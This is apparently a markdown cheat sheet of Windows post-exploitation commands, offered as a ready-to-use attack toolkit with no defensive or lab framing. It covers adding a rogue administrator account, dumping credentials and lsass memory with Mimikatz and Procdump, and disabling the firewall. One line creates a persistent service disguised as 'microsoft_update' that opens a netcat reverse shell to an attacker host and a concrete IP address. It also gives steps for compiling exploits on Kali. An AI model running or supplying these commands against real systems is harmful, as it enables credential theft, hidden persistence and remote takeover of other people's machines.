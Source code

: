 #  Useful windows tips and tricks
####  Add New user in Windows
      - net user test 1234 /add
      - net localgroup administrators test /add
#### Mimikatz use
            - git clone https://github.com/gentilkiwi/mimikatz.git privilege::debug
            - sekurlsa::logonPasswords full


#### Mount Remote Windows Share
        - Code:
           - smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
#### Windows Useful cmds
```
- net localgroup Users
- net localgroup Administrators
- search dir/s *.doc
- system("start cmd.exe /k $cmd")
- sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore /c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
- mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
- Procdump.exe -accepteula -ma lsass.exe lsass.dmp
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
- C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
- C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits
```
#### Turn Off Windows Firewall
           netsh firewall set opmode disable
#### Compiling Windows Exploits on Kali
            wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download wine mingw-get-setup.exe
            select mingw32-base
            cd /root/.wine/drive_c/windows
            wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip cd /root/.wine/drive_c/MinGW/bin
            wine gcc -o ability.exe /tmp/exploit.c -lwsock32
            wine ability.exe
